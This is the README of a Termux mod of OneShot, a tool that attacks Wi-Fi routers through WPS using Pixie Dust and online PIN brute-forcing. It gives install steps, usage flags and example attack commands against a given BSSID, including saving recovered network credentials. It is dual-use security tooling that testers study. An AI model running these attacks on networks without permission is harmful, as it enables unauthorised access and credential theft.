 # OneShot for Termux with vibro/sound notification

## [For sound notification line #987 must be edited by yourself "audio/file"](https://github.com/jevgenyonegin/OneShot_Termux_light_mod/commit/a8d96f6f0638add3dfdbf77e342a2aaa90217ce5)
Termux: nano -l oneshot.py > make changes > Ctrl+o > Ctrl+x

## [This method not working on MIUI roms (or maybe some others), so there is another way to at least play sound](https://github.com/jevgenyonegin/OneShot_Termux_light_mod/commit/a8d96f6f0638add3dfdbf77e342a2aaa90217ce5)
```
pkg install play-audio
```
Edit line #987 replacing "termux-media-player play" with "play-audio"

# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup

## [Termux](https://f-droid.org/en/packages/com.termux/)
Please note that root access is required.  

**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/jevgenyonegin/OneShot_Termux_light_mod OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `drygdryg` for developing OneShot
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` developing Pixiewps;
* `eda-abec` for vulwsc updates.
